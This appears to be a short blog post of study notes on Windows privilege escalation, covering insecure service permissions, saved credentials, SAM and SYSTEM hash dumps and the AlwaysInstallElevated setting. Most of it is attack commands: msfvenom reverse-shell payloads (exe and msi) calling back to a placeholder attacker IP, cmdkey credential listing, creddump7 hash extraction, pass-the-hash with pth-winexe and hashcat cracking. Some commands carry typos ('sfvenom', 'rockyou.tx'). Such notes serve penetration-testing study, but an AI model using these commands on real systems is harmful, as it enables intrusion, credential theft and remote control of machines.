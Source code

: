 ```yaml
---
layout: post
title: 'Notes | Windows Privilage Escalation'
permalink: /notes/system/windows-privilage-escalation/
---
```


# [](#header-4)Insecure Windows Service Permissions
If we manage to find one Insecure Windows Service we can modify the executable file with one corrupted and wait to the service to execute (or by ourselves with *net start [service]*).
We can create a reverse shell with **msfvenom**:
{% highlight plain %}
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=[attackerIP] LPORT=[port] -f exe -o reverse.exe
{% endhighlight %}
And change the **reverse.exe** name with the service.exe name.

# [](#header-4)Saved Credentials
We can execute:
{% highlight plain %}
> cmdkey /list
{% endhighlight %}
to get some credentials.

# [](#header-4)SAM and SYSTEM
We can search for those files in ** C:\Windows\Repair**. With those we can get and crack the system's passwords.
For example with **creddump7**:
{% highlight plain %}
> python3 creddump7/pwdump.py SYSTEM SAM
{% endhighlight %}

Then we can log in with the hash or break the hash:
{% highlight plain %}
> pth-winexe -U 'admin%hash' //[ip] cmd.exe
{% endhighlight %}
{% highlight plain %}
> hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.tx
{% endhighlight %}

# [](#header-4)AlwaysInstalledElevated
If that property is set 1 (we can check it with: **reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevate**) we can create a msi with **msfvenom**:
{% highlight plain %}
> sfvenom -p windows/x64/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f msi -o reverse.ms
{% endhighlight %}

# [](#header-4)Tools
- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)